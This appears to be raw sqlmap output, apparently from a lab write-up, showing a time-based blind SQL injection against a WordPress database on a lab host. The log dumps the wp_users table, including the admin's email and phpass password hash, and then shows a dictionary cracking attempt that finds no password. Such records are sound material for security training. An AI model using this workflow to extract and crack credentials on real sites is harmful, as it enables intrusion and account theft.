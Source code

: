 ```
[11:32:05] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[11:32:35] [INFO] adjusting time delay to 1 second due to good response times
[11:32:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.59
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[11:32:35] [INFO] fetching columns for table 'wp_users' in database 'wordpress'
[11:32:35] [INFO] retrieved: 10
[11:32:46] [INFO] retrieved: ID
[11:33:03] [INFO] retrieved: user_login
[11:35:00] [INFO] retrieved: user_pass
[11:36:41] [INFO] retrieved: user_nicename
[11:38:50] [INFO] retrieved: user_email
[11:40:32] [INFO] retrieved: user_url
[11:42:06] [INFO] retrieved: user_registered
[11:44:37] [INFO] retrieved: user_activation_key
[11:47:59] [INFO] retrieved: user_status
[11:50:00] [INFO] retrieved: display_name
[11:52:08] [INFO] fetching entries for table 'wp_users' in database 'wordpress'
[11:52:08] [INFO] fetching number of entries for table 'wp_users' in database 'wordpress'
[11:52:08] [INFO] retrieved: 1
[11:52:12] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                     
1
[11:52:22] [INFO] retrieved: admin
[11:53:08] [INFO] retrieved: 
[11:53:09] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[11:53:09] [INFO] retrieved: admin@oledockers.norc.labs
[11:57:40] [INFO] retrieved: admin
[11:58:26] [INFO] retrieved: admin
[11:59:13] [INFO] retrieved: $P$BeNShJ/iBpuokTEP2/94.sLS8ejRo6.
[12:06:42] [INFO] retrieved: 2024-07-01 18:07:01
[12:10:17] [INFO] retrieved: 0
[12:10:33] [INFO] retrieved: http://norc.labs
[12:13:44] [INFO] recognized possible password hashes in column 'user_pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[12:13:44] [INFO] using hash method 'phpass_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/smalldict.txt' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[12:13:44] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[12:13:44] [INFO] starting dictionary-based cracking (phpass_passwd)
[12:13:44] [INFO] starting 8 processes 
[12:13:52] [WARNING] no clear password(s) found                                                                                                             
Database: wordpress
Table: wp_users
[1 entry]
+----+------------------+------------------------------------+----------------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url         | user_pass                          | user_email                 | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+------------------+------------------------------------+----------------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| 1  | http://norc.labs | $P$BeNShJ/iBpuokTEP2/94.sLS8ejRo6. | admin@oledockers.norc.labs | admin      | 0           | admin        | admin         | 2024-07-01 18:07:01 | <blank>             |
```